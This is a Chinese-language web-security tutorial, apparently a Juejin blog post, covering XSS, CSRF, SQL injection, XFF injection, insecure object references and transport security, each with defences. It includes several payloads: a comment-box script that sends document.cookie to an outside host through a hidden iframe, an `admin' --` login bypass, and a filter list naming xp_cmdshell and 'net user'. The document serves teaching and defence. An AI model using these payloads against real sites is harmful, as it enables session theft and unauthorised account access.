




## 一、XSS攻击

[跨站脚本攻击](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2F%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB%2F8186208)(Cross Site Scripting)，为了不和[层叠样式表](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2F%E5%B1%82%E5%8F%A0%E6%A0%B7%E5%BC%8F%E8%A1%A8)(Cascading Style Sheets, [CSS](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2FCSS%2F5457))的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意的Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。



**特点：尽一切办法在目标网站上执行非目标网站上原有的脚本。**

### XSS危害

1. 使用js或css破坏页面正常的结构与样式
2. 通过document.cookie盗取cookie，实现无密码访问
3. 流量劫持（通过访问某段具有window.location.href定位到其他页面）
4. Dos攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。
5. 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作。
6. 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。

### 攻击方式

#### **1. Reflected XSS（基于反射的XSS攻击）**

::: tip 

非持久型，反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。

:::

反射型 XSS 的攻击步骤：

- 攻击者构造出特殊的 URL，其中包含恶意代码。
- 用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。
- 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
- 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。



#### **2. Stored XSS（基于存储的XSS攻击）**

::: tip 持久型：

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

:::

存储型 XSS 的攻击步骤：

- 攻击者将恶意代码提交到目标网站的数据库中。
- 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。
- 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
- 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。



#### **3. DOM-based or local XSS（基于DOM或本地的XSS攻击）**

::: tip 

一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

::: 

DOM 型 XSS 的攻击步骤：

- 攻击者构造出特殊的 URL，其中包含恶意代码。
- 用户打开带有恶意代码的 URL。
- 用户浏览器接收到响应后解析执行，前端  JavaScript 取出 URL 中的恶意代码并执行。
- 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

简单案例

使用xss弹出恶意警告框，代码为：

```js
<script>alert("xss")</script>
```

xss输入也可能是html代码段，如果使网页不停的刷新，代码为：

```html
<meta http-equiv="refresh" content="0;">
```

嵌入其他网站链接的代码为：

```html
<iframe src="http://www.jsay.org" width=0 height=0></iframe>
<!-- jsay.org 个人小站还没开始运行哦！ -->
```

`JavaScript` 写一个请求跨站的脚本就是XSS了，如下：

```javascript
<!-- jsay.org 个人小站还没开始运行哦！ -->
<!-- 将此段代码放在评论/留言框中提交 -->
<script type="text/javascript">
  (function(window, document) {
      // 构造泄露信息用的 URL
      var cookies = document.cookie;
      var xssURIBase = "http://www.jsay.org/xss/";
      var xssURI = xssURIBase + window.encodeURI(cookies);
      // 建立隐藏 iframe 用于通讯
      var hideFrame = document.createElement("iframe");
      hideFrame.height = 0;
      hideFrame.width = 0;
      hideFrame.style.display = "none";
      hideFrame.src = xssURI;
      // 开工
      document.body.appendChild(hideFrame);
  })(window, document);
</script>
```

### XSS防御

**思路：对输入(和URL参数)进行过滤，对输出进行编码。也就是对提交的所有内容进行过滤，对url中的参数进行过滤，过滤掉会导致脚本执行的相关内容；然后对动态输出到页面的内容进行html编码，使脚本无法在浏览器中执行。虽然对输入过滤可以被绕过，但是也还是会拦截很大一部分的XSS攻击。**

1. 对输入、URL参数等（如：`<>`、`/` 、`&`、`'`、`"` ）进行转义、**过滤**，仅接受指定长度范围内并符合我们期望格式的的内容提交，阻止或者忽略除此外的其他任何数据；
2. 输出数据之前对潜在的威胁的字符进行**编码**、转义；
3. XSS 一般利用js脚步读取用户浏览器中的Cookie，而如果在服务器端对 Cookie 设置了HttpOnly 属性，那么js脚本就不能读取到cookie，但是浏览器还是能够正常使用cookie。
4. 设置黑、白名单；
5. [Content Security Policy](https://link.juejin.im?target=http%3A%2F%2Fwww.ruanyifeng.com%2Fblog%2F2016%2F09%2Fcsp.html) 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。它的实现和执行全部由浏览器完成，开发者只需提供配置。

## 二、CSRF攻击

::: tip CSRF（Cross-site request forgery）跨站请求伪造：

也被称为“One Click Attack”或者Session Riding，通常缩写为CSRF或者XSRF，是一种对网站的恶意利用。尽管听起来像跨站脚本（[XSS](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2FXSS)），但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装成受信任用户的请求来利用受信任的网站。与[XSS](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2FXSS)攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比[XSS](https://link.juejin.im?target=https%3A%2F%2Fbaike.baidu.com%2Fitem%2FXSS)更具危险性。

:::

**本质原因：CSRF攻击是源于Web的隐式身份验证机制。Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。CSRF攻击的一般是由服务端解决。**

CSRF攻击条件：

- 登录受信任网站A，并在本地生成Cookie。

- 在不登出A的情况下，访问危险网站B。

  

虽然有些时候你访问B网站的时候，并没有访问A网站，但是你并不能保证之前登录过A网站的本地Cookie已过期，这个时候B网站一样是可以发起攻击。 CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！

### CSRF的防御

1. Cookie Hashing(所有表单都包含同一个伪随机值);
2. 验证码;
3. One-Time Tokens(不同的表单包含一个不同的伪随机值);
4. **Referer 验证**:Referer 指的是页面请求来源。意思是，**只接受本站的请求，服务器才做响应**；如果不是，就拦截。

## 三、SQL注入

::: tip 

通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。它是利用现有应用程序，将（恶意的）SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。

:::

### 原理

SQL注入攻击指的是通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。

**简单举例：**

```javascript
// 前端给后端post键值对，登录的用户名和密码
let data = {
  username: 'admin',
  pwd: 'abc123456'
}
// 后端的sql语句
 SELECT * FROM user WHERE username='${username}' AND psw='${pwd}'
复制代码
```

这个时候前端的 `username` 别人输入 `admin' --` ；这个时候查询的 `SQL` 语句就变成这样子了：

```sql
SELECT * FROM user WHERE username='admin' -- AND psw='${pwd}'
```

:star:Ps: `--` 在SQL语句里面是注释，也就是说登录的查询条件变成了不需要验证密码！

### SQL注入防御

1. 永远不要信任用户的输入。对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和 双"-"进行转换等。
2. 永远不要使用动态拼装sql，可以使用参数化的sql或者直接使用存储过程进行数据查询存取。
3. 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
4. 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息。
5. 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装
6. sql注入的检测方法一般采取辅助软件或网站平台来检测，软件一般采用sql注入检测工具jsky，网站平台就有亿思网站安全平台检测工具。MDCSOFT SCAN等。采用MDCSOFT-IPS可以有效的防御SQL注入，XSS攻击等。

## 四、XFF注入

::: tip 

X-Forwarded-for的缩写，XFF注入是SQL注入的一种，该注入原理是通过修改X-Forwarded-for头对带入系统的dns进行sql注入，从而得到网站的数据库内容。

:::

### XFF的预防

1. 过滤http头中的X-Forwarded-for header中的内容，不允许其插入敏感字符，过滤字符参考sql注入修复方案。

2. 过滤以下敏感字符。需要过滤的特殊字符及字符串有：

   ```
   net user
   xp_cmdshell
   add
   exec master.dbo.xp_cmdshell
   net localgroup administrators
   select
   count
   Asc
   char
   mid
   '
   ：
   "
   insert
   delete from
   drop table
   update
   truncate
   from
   %
   ```

## 五、不安全的直接对象引用

::: tip

当开发人员公开对内部实现对象的引用（例如URL或FORM参数中的文件，目录或数据库键）时，就会发生这种情况。攻击者可以使用此信息访问其他对象，并可以创建将来的攻击来访问未经授权的数据。

:::

**简单举例：** 更改以下URL中的 `userid` 可以使攻击者查看其他用户的信息。 `http://www.jsay.org/userid=123` 修改为 `http://www.jsay.org/userid=124` 攻击者可以通过更改用户标识值来查看其他信息。或者文件允许下载访问  `http://www.jsay.org/a.txt` ，但是通过 `http://www.jsay.org/b.txt` 可以看到不允许访问的文件！

### 防御

1. 实施访问控制检查。
2. 避免在URL中公开对象引用。
3. 验证对所有引用对象的授权。

## 六、传输层保护不足

::: tip

处理用户（客户端）和服务器（应用程序）之间的信息交换。应用程序经常通过网络传输敏感信息，如身份验证详细信息，信用卡信息和会话令牌。通过使用弱算法或使用过期或无效的证书或不使用SSL，可以允许将通信暴露给不受信任的用户，这可能会危及Web应用程序和/或窃取敏感信息。

:::

### 防御

1. 启用安全HTTP并仅通过HTTPS强制执行凭据传输。
2. 确保您的证书有效且未过期。

作者：拾贰

链接：https://juejin.im/post/5cda5f295188257ec35efd86

来源：掘金

著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。